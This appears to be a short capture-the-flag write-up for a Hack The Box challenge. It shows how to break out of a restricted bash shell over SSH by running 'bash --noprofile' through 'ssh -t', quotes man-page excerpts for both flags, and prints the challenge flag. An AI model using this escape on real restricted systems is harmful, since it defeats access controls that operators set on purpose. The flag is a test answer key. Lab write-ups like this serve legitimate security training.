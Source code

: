 # Connecion
Connection must be established with ssh.

# Challenge
The server is runing rbash (restricted bash)

# Solution
Connect to the server using the --noprofile parameter. `ssh restricted@178.128.42.97 -p 32390 -t "bash --noprofile"`. https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

From man documentation:
```
     -t      Force pseudo-terminal allocation.  This can be used to execute arbitrary screen-based programs 		on a remote machine, which can be very use‐
             ful, e.g. when implementing menu services.  Multiple -t options force tty allocation, even if ssh has no local tty.
```

From bash documentation:
```
--noprofile
              Do  not  read either the system-wide startup file /etc/profile or any of the personal initialization files ~/.bash_profile, ~/.bash_login,
              or ~/.profile.  By default, bash reads these files when it is invoked as a login shell (see INVOCATION below).
```

# Flag 
`HTB{r35tr1ct10n5_4r3_p0w3r1355}`